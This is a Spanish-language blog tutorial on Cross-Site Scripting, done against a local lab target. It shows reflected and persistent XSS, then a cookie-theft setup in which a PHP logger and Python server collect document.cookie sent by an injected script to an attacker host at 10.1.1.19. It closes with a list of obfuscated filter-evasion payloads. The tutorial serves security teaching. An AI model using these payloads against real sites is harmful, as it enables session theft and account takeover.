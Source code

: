 ```yaml
---
date: 2023-01-01T04:23:05.000Z
layout: post
comments: true
title: Cross Site Scripting (XSS)
subtitle: 'Secuencias de comandos en sitios cruzados'
description: >-
image: >-
    http://imgfz.com/i/NSOtC6A.jpeg
optimized_image: >-
    http://imgfz.com/i/NSOtC6A.jpeg
category: ciberseguridad
tags: 
  - hacking
  - exploit
  - vulnerabilidad
  - reflejado
  - robo
  - cookie
  - persistente
author: Felipe Canales Cayuqueo
paginate: true
---
```


Es una vulnerabilidad que permite a un atacante controlar parte del contenido de una aplicación web, al explotar un XSS, el atacante puede realizar algunas de las siguientes opciones:

* Modificar contenido de el sitio.
* Inyectar contenido malicioso.
* Robar cookies de sesión.
* Realizar acciones en la aplicación web como si fuera un usuario legítimo.
* Entre otros.

Las vulnerabilidades XSS se producen cuando una aplicación web utiliza entradas de usuario no filtradas para construir el contenido de salida que se muestra a sus usuarios finales; esto permite a un atacante controlar el código HTML y JavaScript de salida, en donde la entrada de uso es cualquier parámetro procedente del lado del cliente de la aplicación web como por ejemplo:

* La peticiones en las cabeceras.
* Las cookies.
* Entradas de un formulario.
* Parámetros POST y GET.

### Identificación de Vulnerabilidad

La forma más simple de verificar un Cross Site Scripting es por medio de la siguiente inyección:

```js
<script>alert('XSS')</script>
```

![xsssimpletest1](/images/xsstest1.png)

![xsssimpletest2](/images/xsstest1result.png)

Otra opción de verificación es por medio de la herramienta ```xsser```, en donde por medio de ```Burpsuite``` se consigue el target siguiente:

![burpxss](/images/xsstest1burp.png)

En la parte en que dice "test", se reemplaza por "XSS" y ejecutamos ```xsser``` con los siguiente parámetros:

```bash
┌──(root㉿kali)-[/XSS]
└─ xsser --url 'http://10.1.1.37/multillidae/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'
```

Y como se aprecia encontró la vulnerabilidad existente en este sitio web:

![xssertest1](/images/xsstest1xsser.png)

Otras opciones que se pueden tener en consideración son las siguientes:

|Opción   |Descripción  |
|-------------|----------|
|--auto|Aplica múltiples payloads para verificar la vulnerabilidad.|
|--Fp|Con este parámetro se puede testear un payload propio, ocupando la siguiente forma como ejemplo, ``` --Fp "<script>alert('XSS')</script>"``` |

Para este caso se habla de un XSS reflejado, pues los ataques reflejados se producen cuando la carga maliciosa se transporta dentro de la solicitud que el navegador de la víctima envía al sitio web vulnerable.

Pueden desencadenarse mediante la publicación de un enlace en una red social o a través de una campaña de phishing. Cuando los usuarios hacen clic en el enlace, desencadenan el ataque.

#### Ejemplo 2 de XSS Reflejado

Otra opción para explotar un XSS reflejado, es por medio del URL, como sucede en la siguiente situación:

![xssurl](/images/xsstest1url.png)

Para esta situación se pueden aplicar cierto filtros de URL Encode:

![xssurlencode](/images/xsstest1url2.png)


### XSS Persistente

Los ataques XSS persistentes se producen cuando la carga útil se envía al servidor web vulnerable y luego se almacena, es decir, el código malicioso se entrega cada vez que un navegador web accede a la página web inyectada.

Un ejemplo es el siguiente en que siempre mostrará la cookie de sesión del usuario, las veces que se ingrese a la web:

![xsssimplecookie](/images/xsstest2.png)

![xsssimplecookieresonse](/images/xsstest2persistentone.png)

Y si se recarga la web infectada, seguiremos recibiendo como una respuesta persistente la cookie de sesión:

![xsssimplecookiereload](/images/xsstest2reload.png)

![xsssimplecookiereloadpersist](/images/xsstest2reloadpersist.png)


### XSS Robo de Cookie

Tal como se mostró en el ejemplo anterior existe la opción de que por medio de un Cross Site Scripting se roben cookies de sesión, pero para esta situación enviaremos las cookies a un servidor que simule el del atacante, a través del siguiente archivo en php:

```php
<?php
$filename="/tmp/log.txt";
$fp=fopen($filename, 'a');
$cookie=$_GET['q'];
fwrite($fp, $cookie);
fclose($fp);
?>
```

Luego para poder recibir las cookies nos montamos un servidor con python verificando que en la carpeta en que se inicie se encuentre el archivo ```log.php```:

```bash
┌──(root㉿kali)-[/XSS]
└─ ls
log.php

┌──(root㉿kali)-[/XSS]
└─ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Para este ejemplo inyectaremos el siguiente payload, el cual genera un objeto imagen y apunta su "src" a un script en el servidor del atacante (10.1.1.19):

```js
<script>var i = new Image(); i.src="http://10.1.1.19/log.php?q="+document.cookie;</script>
```

![xssservercookie](/images/xsstest3.png)

Y recibimos la cookie en nuestro servidor:

![xssservercookieresponse](/images/xsstest2pythonrec.png)

Este se recibirá las veces que se ingrese a la página web atacada:

![xssservercookiereload](/images/xsstest3reload.png)

![xssservercookiereloadpy](/images/xsstest3reloadpython.png)

### Evasión de filtros

```

<svg><circle><set onbegin=prompt(1) attributename=fill>
["');alert('XSS');//"]@xyz.xxx
</SCRIPT>">'><SCRIPT>alert(String.fromCharCode(100, 111, 99, 117, 109, 101, 110, 116, 46, 99, 111, 111, 107, 105, 101))</SCRIPT>
%22%3E%3Csvg%20onload%3dalert%26%230000000040%22100%22)%3E
a%22%20accesskey%3d%22x%22%20onclick%3d%22alert(document.domain)%22%20test%3d%22test%3dxss
\u003e\u003cimg src=1 onerror=alert(0)\u003e
<abdool attr=" --- x="=='='onmouseover=confirm`abdool` style="display:block;width:1000px;height:1000px;background:red">
payload : test"><img src=x on0x=1 onerror=alert(/POC/)>
<Svg Only=1 OnLoad=confirm(atob("Q2xvdWRmbGFyZSBCeXBhc3NlZCA6KQ==")>
"><sVg/OnLuFy="X=y"oNloaD=;1^confirm(1)>/``^1//
javaScRipt:Alert(‘1’)
<svg onload=eval(location.hash.slice(1))>
"><svg/onload=alert%26%230000000040"Hacked")>
<iframe src="data:image/svg+xml;base64,CjxzdmcgeG1sbnM9Imh0dHA6Ly93d3cudzMub3JnLzIwMDAvc3ZnIj4KICA8aW1hZ2UgaHJlZj0ieCIgb25lcnJvcj0iamF2YXNjcmlwdDphbGVydCgncHduZWQgZXJuYW5zJykiIC8+Cjwvc3ZnPg=="/>
"><BODy onbeforescriptexecute="x1='cookie';c=')';b='a';location='jav'+b+'script:con'+'fir\u006d('+'document'+'.'+x1+c">
test"%20onmouseover="prompt%26%2300000000000000000040;%27XSS%27%26%2300000000000000000041;
<Svg Only=1 OnLoad=confirm(atob("Q2xvdWRmbGFyZSBCeXBhc3NlZCA6KQ=="))>

```

### Recomendación

Todos estos canales de entrada deben ser validados por el servidor mediante funciones de seguridad bien implementadas que deben desinfectar o filtrar la entrada de los usuarios.
